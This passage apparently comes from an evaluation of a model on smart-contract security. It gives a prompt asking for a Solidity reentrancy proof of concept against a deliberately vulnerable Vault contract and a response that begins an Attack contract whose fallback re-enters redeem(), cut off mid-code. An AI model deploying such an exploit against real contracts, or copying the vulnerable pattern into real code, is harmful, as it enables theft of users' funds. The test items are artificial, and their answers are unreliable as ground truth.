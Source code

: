 #### Result:

Score: 10

### Test4

#### Prompt：

The following smart contract has vulnerabilities:{The balance is deducted after the transfer is successful, so there is a reentry risk.} You are required to combine the above analysed vulnerabilities and the given smart contract to write a Solidity-based proof of concept(PoC).

The following smart contract has a vulnerability: the balance deduction occurs after the transfer is successful, thus creating a reentrancy vulnerability. Please, based on the analysis of the aforementioned vulnerability and the provided smart contract code, write a Proof of Concept (PoC) in Solidity，

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
 
/// @dev Contract managing the storage and redemption of ETH.
contract Vault {
	mapping(address => uint256) public balances;
 
	/// @dev Stores the ETH of the sender in the contract.
	function store() external payable {
    	balances[msg.sender] += msg.value;
	}
 
	/// @dev Redeems the ETH of the sender in the contract.
	function redeem() external {
    	(bool success,) = msg.sender.call{value: balances[msg.sender]}("");
    	require(success, "Transfer failed");
    	balances[msg.sender] = 0;
	}
}

```

#### Response：

The provided smart contract allows users to store and redeem Ether (ETH). However, it has a reentrancy vulnerability in its redeem() function. Specifically, the contract sends Ether to the caller before setting the user's balance to zero. This issue could allow the redeem() function to be called multiple times before the balance is zeroed, permitting malicious users to withdraw more Ether than they deposited.

Here is a Solidity Proof of Concept (PoC) code that exploits this reentry vulnerability:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/// @title is a contract used to demonstrate the re-entry attack on Vault contracts
contract Attack {
    Vault public vault;

    constructor(address _vaultAddress) {
        vault = Vault(_vaultAddress);
    }

    // The fallback function called when the Attack contract receives Ethereum
    fallback() external payable {
        if (address(vault).balance >= 1 ether) {
            vault.redeem();
        }
```